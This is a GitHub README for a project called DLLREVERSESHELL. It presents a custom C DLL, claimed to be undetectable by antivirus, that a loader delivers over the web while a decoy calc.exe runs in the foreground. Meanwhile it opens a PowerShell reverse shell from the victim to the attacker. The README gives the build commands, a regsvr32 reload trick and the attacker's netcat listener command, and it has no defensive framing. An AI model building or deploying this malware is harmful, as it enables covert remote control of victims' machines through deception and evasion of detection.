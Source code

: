 # DLLREVERSESHELL
<b>A CUSTOM CODED FUD DLL, CODED IN C , WHEN LOADED , VIA A DECOY WEB-DELIVERY MODULE( FIRING A DECOY PROGRAM), WILL GIVE A REVERSE SHELL (POWERSHELL) FROM THE VICTIM MACHINE TO THE ATTACKER CONSOLE , OVER LAN AND WAN.
</b>

The project comprises of:


<p><b>. A custom C header file, mingwdll.h </b></p>
<p><b>. The DLL C code mingw_dll.c </b></p>
<p><b>. The Loader file loader.c , that will invoke a web delivery of the DLL ,to the target machine, load the DLL in the runtime, producing the decoy program for the victim on the foreground, and spawning a connect back reverse shell (powershell) to the attacker, in the back ground </b></p>

<p><b><i> Phase 1 : </b></i></p>

Place the mingwdll.h and mingw_dll.c in the same folder and compile using :

<b>i686-w64-mingw32-gcc -Wall -shared mingw_dll.c -o calc_helper.dll -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc </b>

This will create the FUD DLL <b> calc_helper.dll </b>

File Description:
<b> root@nautilus:~/Desktop/c_code/dll_rsh# file calc_helper.dll
calc_helper.dll: PE32 executable (DLL) (console) Intel 80386 (stripped to external PDB), for MS Windows
</b>

<p><b><i> Phase 2 : </b></i></p>
Compile the loader.c using <b> i686-w64-mingw32-gcc loader.c -o improved_calc.exe </b>
This will create the PE32 executable improved_calc.exe.

File Description:
<b>improved_calc.exe: PE32 executable (console) Intel 80386, for MS Windows </b>

When the file improved_calc.exe , it might initially throw a Dll load error, thus I have ensured that a second call to regsvr32 is made post a _sleep() function, to ensure the DLL load on runtime.

Post the DLL is loaded , it will fire the decoy , calc.exe and spawn a reverse shell, (netcat listener on port 8080 as defined in the header file { nc -lvp 8080 } ) 

Cheers

#Captain_Nemo

# DLLREVERSESHELL

<b><p>https://youtu.be/HR0C_2_UAT8</p></b>
